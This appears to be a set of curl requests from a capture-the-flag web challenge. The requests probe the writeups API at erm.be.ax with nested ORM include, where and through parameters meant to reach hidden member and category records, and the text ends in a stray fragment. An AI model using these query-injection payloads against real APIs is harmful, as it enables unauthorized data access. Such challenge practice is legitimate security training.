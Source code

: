 https://erm.be.ax/api/writeups?include%5B0%5D%5Bassociation%5D=Member&include%5Bright%5D=true


curl -G 'https://erm.be.ax/api/writeups' \
    --data-urlencode 'include[0][association]=Member' \
    --data-urlencode 'include[0][include][0][association]=Categories' \
    --data-urlencode 'include[0][where][required]=false'

curl -G 'https://erm.be.ax/api/writeups' \
    --data-urlencode 'include[0][association]=Member' \
    --data-urlencode 'include[0][required]=false' \
    --data-urlencode '[where][$Member.username$]=goroo' \
    --data-urlencode 'include[0][include][0][association]=Categories' \
    --data-urlencode 'include[0][include][0][required]=false' 

curl -G 'https://erm.be.ax/api/writeups' \
    --data-urlencode 'include[0][association]=Member' \
    --data-urlencode 'include[0][include][0][association]=Categories' \
    --data-urlencode 'subquery=false' \
    --data-urlencode '[where][$Member.username$]=FizzBuzz101' 

curl -G 'https://erm.be.ax/api/writeups' \
    --data-urlencode 'include[0][association]=Member' \
    --data-urlencode 'include[0][include][0][association]=Categories' \
    --data-urlencode '[where][$MemberCategory.CategoryName$]=pwn' 

curl -G 'https://erm.be.ax/api/writeups' \
    --data-urlencode 'include[0][association]=Member' \
    --data-urlencode 'include[0][through][where][username]=FizzBuzz101'

curl -G 'https://erm.be.ax/api/writeups' \
    --data-urlencode 'include[0][association]=Member' \
    --data-urlencode 'include[0][where][$Member.username$]=FizzBuzz101' \
    --data-urlencode 'include[0][include][0][association]=Categories' \
    --data-urlencode 'include[0][include][0][include][0][association]=Members'

curl -G 'https://erm.be.ax/api/writeups' \
    --data-urlencode 'include[0][association]=Member' \
    --data-urlencode 'include[0][where][username]=drakon' \
    --data-urlencode 'include[0][include][0][association]=Categories' \
    --data-urlencode 'include[0][include][0][include][0][association]=Member' \
    --data-urlencode 'include[0][include][0][include][0][required]=true'


curl -G 'https://erm.be.ax/api/writeups' \
    --data-urlencode 'include[0][t]=Category' 


curl -G 'https://erm.be.ax/api/writeups' \
    --data-urlencode 'include[0][association]=Member' \
    --data-urlencode 'include[0][required]=false' \
    --data-urlencode 'include[0][include][0][association]=Categories' \
    --data-urlencode 'include[0][include][0][through][model]=MemberCategory' \
    --data-urlencode 'include[0][include][0][include][0][association]=Members' \
    --data-urlencode 'include[0][include][0][include][0][through][model]=MemberCategory'

     \
    --data-urlencode 'include[0][include][0][include][0][through]=MemberCategory' 
